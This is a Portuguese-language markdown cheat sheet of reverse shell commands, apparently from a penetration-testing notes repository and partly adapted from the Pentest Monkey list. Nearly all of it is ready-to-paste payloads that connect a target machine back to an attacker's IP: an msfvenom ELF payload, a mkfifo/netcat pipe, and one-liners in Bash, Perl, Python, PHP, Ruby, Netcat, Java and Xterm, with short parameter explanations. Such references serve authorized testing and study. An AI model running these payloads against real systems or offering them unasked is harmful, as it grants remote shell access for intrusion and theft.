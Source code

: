# Reverse Shells

Este arquivo contém comandos úteis para criação e configuração de reverse shells em diferentes plataformas e linguagens.

## Linux Reverse Shell - ELF Payload

O comando abaixo usa `msfvenom` para gerar um payload de reverse shell no formato ELF, específico para sistemas Linux de 64 bits:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.118.11 LPORT=4444 -f elf -o shell
```

### Descrição dos Parâmetros

- `-p linux/x64/shell_reverse_tcp`: Define o payload como uma shell reversa para Linux 64 bits.
- `LHOST=192.168.118.11`: Define o IP do atacante para onde o shell reverso irá se conectar.
- `LPORT=4444`: Define a porta no IP do atacante para a conexão reversa.
- `-f elf`: Especifica o formato de saída do arquivo como ELF, compatível com sistemas Linux.
- `-o shell`: Nomeia o arquivo gerado como `shell`.

**Nota**: Esse payload deve ser configurado em conjunto com um listener no IP e porta especificados (como `nc -lvp 4444`) para capturar a conexão reversa.

---

## Linux Reverse Shell - Named Pipe (FIFO)

Este comando configura um **reverse shell** usando named pipes (`mkfifo`) e `Netcat` para conectar de volta à máquina de ataque:

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc <IP_do_Atacante> <Porta> >/tmp/f
```

### Explicação
1. **Remove o arquivo `/tmp/f`** se existir, para evitar conflitos.
2. **Cria um named pipe** em `/tmp/f` com `mkfifo`, usado para comunicação bidirecional.
3. **Redireciona a entrada e saída** do shell (`sh -i`) para o pipe, e depois para `Netcat`.
4. **Estabelece uma conexão reversa** com o IP e porta especificados, permitindo controle remoto do shell.


---

## Reverse Shell Cheat Sheet - Pentest Monkey https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Quando você encontra uma vulnerabilidade de execução de comando durante um teste de penetração, provavelmente vai querer obter um shell interativo rapidamente.

Se não for possível adicionar uma nova conta, chave SSH ou arquivo `.rhosts` para fazer login, o próximo passo é enviar um **reverse shell** ou **vincular um shell a uma porta TCP**. Esta seção foca em **reverse shells**.

As opções para criar um reverse shell dependem das linguagens de script instaladas no sistema-alvo – embora seja possível enviar um binário se necessário.

Abaixo estão exemplos prontos para sistemas Unix-like (alguns funcionam no Windows substituindo `/bin/sh -i` por `cmd.exe`). Cada exemplo é um comando curto para fácil cópia e colagem.

### Bash
Algumas versões do bash podem enviar um reverse shell (testado no Ubuntu 10.10):

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Perl
Versão curta e simples do reverse shell em Perl:

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");
open(STDERR,">&S");exec("/bin/sh -i");};'
```


### Python
Reverse shell usando Python, testado no Linux com Python 2.7:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
Este código assume que a conexão TCP usa o descritor de arquivo 3 (teste 4, 5 ou 6 se não funcionar):

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby
Reverse shell em Ruby:

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat
**Atenção**: Algumas versões do Netcat não suportam a opção `-e`.

```
nc -e /bin/sh 10.0.0.1 1234
```

Se a versão do Netcat não suporta `-e`, tente esta alternativa:

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 >/tmp/f
```

### Java
Reverse shell usando Java:

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Xterm
Para iniciar uma sessão xterm reversa. O comando abaixo tenta conectar-se de volta para (10.0.0.1) na porta TCP 6001:

No servidor alvo:
```
xterm -display 10.0.0.1:1
```

Para capturar a sessão xterm, inicie um X-Server com a porta 6001 aberta, usando:

```
Xnest :1
xhost +targetip
```
